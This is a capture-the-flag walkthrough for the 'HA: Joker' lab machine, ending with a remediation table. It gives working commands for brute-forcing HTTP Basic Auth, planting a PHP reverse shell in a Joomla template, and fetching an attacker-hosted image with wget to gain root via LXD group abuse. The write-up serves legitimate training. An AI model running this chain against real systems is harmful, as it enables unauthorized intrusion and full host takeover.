




# HA: Joker — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | Read /root/final.txt |
| **Source** | [HackingArticles](https://www.hackingarticles.in/ha-joker-vulnhub-walkthrough/) |

## Attack Summary

Credential brute-force on HTTP Basic Auth exposed a Joomla site, default admin creds gave template RCE, and LXD group membership allowed mounting the host filesystem as root.

## Methodology

1. Recon — nmap full-port scan, discover services on 22/80/8080
2. Enumeration — dirb with `.txt` extension reveals `secret.txt`; Burp Intruder brute-forces HTTP Basic Auth
3. Exploitation — Joomla template editor PHP reverse shell
4. Privilege Escalation — LXD container with `security.privileged=true` mounts host root

## Step 1: Reconnaissance

```bash
nmap -sV -sC -p- 192.168.1.101
```

Key open ports:

| Port | Service |
|---|---|
| 22/tcp | SSH (OpenSSH) |
| 80/tcp | HTTP (Joker quotes page) |
| 8080/tcp | HTTP (login-protected panel) |

Port 80 returns a page of Joker quotes. Checking the HTML source reveals additional quotes in comments but no credentials. Port 8080 requires HTTP Basic Authentication.


## Step 2: Enumeration

Run dirb against port 80 searching for `.txt` files:

```bash
dirb http://192.168.1.101/ -X .txt
```

This uncovers `/secret.txt`. The file contains a Batman/Joker exchange referencing "rock" (pointing to `rockyou.txt`) and the number "100" (suggesting the top 100 entries). The username `joker` is also implied.

Extract the top 100 entries from rockyou:

```bash
head -100 /usr/share/wordlists/rockyou.txt > top100.txt
```

Use Burp Suite Intruder in Sniper mode against the `Authorization` header (Base64-encoded `joker:<password>`). Generate payloads by Base64-encoding each candidate with the username prefix:

```bash
while read p; do echo -n "joker:$p" | base64; done < top100.txt > payloads.txt
```

A 200 response reveals the credentials: `joker:hannah`.



## Step 3: Exploitation — Joomla Template PHP Shell

Browse to `http://192.168.1.101:8080` and authenticate with `joker:hannah`. This reveals a Joomla site. Navigate to the Joomla administrator panel:

```
http://192.168.1.101:8080/administrator
```

Login with the default credentials `joomla:joomla` (Joomla superuser default).

Navigate to **Extensions > Templates > Templates > beez3 > index.php** and replace the template's `index.php` content with a PHP reverse shell (e.g., PentestMonkey's php-reverse-shell, edited to point to your LHOST and LPORT).

Start the listener:

```bash
nc -lvnp 4444
```

Trigger the shell by visiting:

```
http://192.168.1.101:8080/templates/beez3/index.php
```

Upgrade to a PTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Check group membership:

```bash
id
# uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

The `www-data` user is in the `lxd` group, which is the privilege escalation path.



## Step 4: Privilege Escalation — LXD Group Abuse

On the attacker machine, build an Alpine Linux LXD image:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

Serve the resulting `.tar.gz` over HTTP:

```bash
python3 -m http.server 8000
```

On the target (reverse shell), download and import the image:

```bash
cd /tmp
wget http://<LHOST>:8000/alpine-v3.x-x86_64-<date>.tar.gz
lxc image import alpine-v3.x-x86_64-<date>.tar.gz --alias myimage
lxc image list
```

Create a privileged container with the host root filesystem mounted:

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

You now have a root shell inside the container with the host filesystem at `/mnt/root`.



## Step 5: Root Flag

```bash
cat /mnt/root/root/final.txt
```



## Lessons Learned

1. HTTP Basic Auth brute-forcing is straightforward when a username hint exists in publicly accessible files.
2. Default CMS credentials (`joomla:joomla`) are frequently left unchanged on demo or CTF boxes; always test them.
3. Membership in the `lxd` group is equivalent to root access: any user in this group can spawn a privileged container and access the entire host filesystem.
4. CMS template editors that allow arbitrary PHP execution are a critical attack surface.

## Remediation

| Vulnerability | Recommended Fix |
|---|---|
| HTTP Basic Auth brute-forceable | Implement account lockout and strong unique passwords; use a WAF or rate limiter |
| Default CMS admin credentials | Change all default passwords immediately after installation |
| PHP execution via template editor | Restrict template editing to trusted admins; disable PHP execution in web directories via `disable_functions` |
| `www-data` in `lxd` group | Remove web-server users from the `lxd` group; restrict LXD access to dedicated admin accounts |
| LXD privileged containers | Enforce `security.privileged=false` by policy; use AppArmor profiles |
